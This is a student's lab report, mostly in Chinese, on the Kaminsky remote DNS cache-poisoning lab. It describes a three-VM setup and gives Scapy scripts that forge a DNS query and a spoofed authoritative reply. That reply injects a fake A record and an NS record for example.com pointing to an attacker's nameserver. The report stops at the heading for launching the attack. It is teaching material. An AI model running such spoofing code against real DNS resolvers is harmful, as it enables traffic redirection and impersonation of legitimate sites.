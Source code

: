 #<center>Remote DNS Attack<br>(Kaminsky Attack) Lab
<center>2018级 信息安全 管箫 18307130012</center>

##Lab Environment Setup Tasks
```
在本次实验中，我们使用三台虚拟机，ip地址分别为：
Attacker: 192.168.61.138
Victim: 192.168.61.139
DNS Server: 192.168.61.140
```

###Task 1: Configure the User VM
内容同DNS_Local实验

###Task 2: Configure the Local DNS Server (the Server VM)
####Step 1: Remove the example.com Zone
将DNS_Local实验中添加的example.com域移除
####Step 2: Set up a forward zone
将Attacker指定为域attacker32.com的拥有者
####Step 3: Configure a few options
#####Configure where to dump the DNS cache
#####Turn off DNSSEC.
#####Fix the Source Ports.
以上均已在DNS_Local中完成或无需更改。
####Step 4: Restart DNS server.

###Task 3: Configure the Attacker VM
修改攻击者主机上的DNS服务器设置，使其成为attacker32.com和example.com的解析者
![avatar](./1.png)

###Task 4: Testing the Setup
通过192.168.61.140查询
![avatar](./2.png)
通过192.168.61.138查询
![avatar](./3.png)
由于我们绑定到ns.attacker32.com域名的ip地址的主机并不存在，所以dig无法收到任何响应

##The Attack Tasks
###How Kaminsky attack works
![avatar](./4.png)

###Task 4: Construct DNS request
```
from scapy.all import *

Qdsec = DNSQR(qname='www.example.com')
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)
ip = IP(dst='192.168.61.140', src='192.168.61.138')
udp = UDP(dport=53, sport=53, chksum=0)
request = ip/udp/dns

send(request)
```
![avatar](./5.png)
观察到我们构建了正确的请求包

###Task 5: Spoof DNS Replies
```
from scapy.all import *

name = 'www.example.com'
domain = 'example.com'
ns = 'ns.attacker32.com'
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)
ip = IP(dst='192.168.61.140', src='192.168.61.138')
udp = UDP(dport=33333, sport=53, chksum=0)
reply = ip/udp/dns

send(reply)
```
![avatar](./6.png)
观察到我们正确构造了响应包

###Task 6: Launch the Kaminsky Attack
